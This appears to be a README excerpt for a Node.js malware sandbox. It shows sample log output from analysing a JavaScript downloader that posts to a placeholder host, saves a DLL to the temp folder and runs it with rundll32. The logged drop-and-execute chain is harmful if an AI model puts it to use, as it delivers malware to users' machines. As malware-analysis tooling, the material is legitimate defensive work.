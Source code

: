## Sample output ##


    bash@linux# node jailme.js malware/example.js
    11 Jan 00:06:24 - Malware sandbox ver. 0.2
    11 Jan 00:06:24 - ------------------------
    11 Jan 00:06:24 - Sandbox environment sequence: env/eval.js,env/wscript.js
    11 Jan 00:06:24 - Malware files: malware/example.js
    11 Jan 00:06:24 - Output file for sandbox dump: sandbox_dump_after.json
    11 Jan 00:06:24 - Output directory for generated files: output/
    11 Jan 00:06:24 - ==> Preparing Sandbox environment.
    11 Jan 00:06:24 -  => Executing: env/eval.js
    11 Jan 00:06:24 - Preparing sandbox to intercept eval() calls.
    11 Jan 00:06:24 -  => Executing: env/wscript.js
    11 Jan 00:06:24 - Preparing sandbox to emulate WScript environment.
    11 Jan 00:06:24 - ==> Executing malware file(s).
    11 Jan 00:06:24 -  => Executing: malware/example.js
    11 Jan 00:06:24 - ActiveXObject(WScript.Shell)
    11 Jan 00:06:24 - Created: WScript.Shell[1]
    11 Jan 00:06:24 - WScript.Shell[1].ExpandEnvironmentStrings(%TEMP%)
    11 Jan 00:06:24 - ActiveXObject(MSXML2.XMLHTTP)
    11 Jan 00:06:24 - Created: MSXML2.XMLHTTP[2]
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2].open(POST,http://EXAMPLE.COM/redir.php,false)
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2].setRequestHeader(Content-Type, application/x-www-form-urlencoded)
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2].send(iTlOlnxhMXnM=0.588860877091065&jndj=IT0601)
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2] Not sending data, if you want to interract with remote server, set --down=y
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2] Calling onreadystatechange() with dummy data
    11 Jan 00:06:24 - ActiveXObject(ADODB.Stream)
    11 Jan 00:06:24 - Created: ADODB_Stream[3]
    11 Jan 00:06:24 - ADODB_Stream[3].Open()
    11 Jan 00:06:24 - ADODB_Stream[3].Write(str) - 10001 bytes
    11 Jan 00:06:24 - ADODB_Stream[3].SaveToFile(%TEMP%\57020551.dll, 2)
    11 Jan 00:06:24 - WScript.Shell[1].Exec(rundll32 %TEMP%\57020551.dll, DllRegisterServer)
    11 Jan 00:06:24 - ADODB_Stream[3].Close()
    11 Jan 00:08:42 - ==> Script execution finished, dumping sandbox environment to a file.
    11 Jan 00:08:42 - Saving: output/_TEMP__49629482.dll
    11 Jan 00:08:42 - Saving: output/_TEMP__38611354.pdf
    11 Jan 00:08:42 - Generated file saved
    11 Jan 00:08:42 - Generated file saved
    11 Jan 00:08:42 - The sandbox context has been  saved to: sandbox_dump_after.json

In the above example the payload has been extracted into output/_TEMP__49629482.dll and output/_TEMP__38611354.pdf

## Examples ##

The [malware](malware) folder contains real-world malware samples. Most of them downloaded from https://malwr.com. 

Please see [EXAMPLES](EXAMPLES.md) for complete index of malware samples.
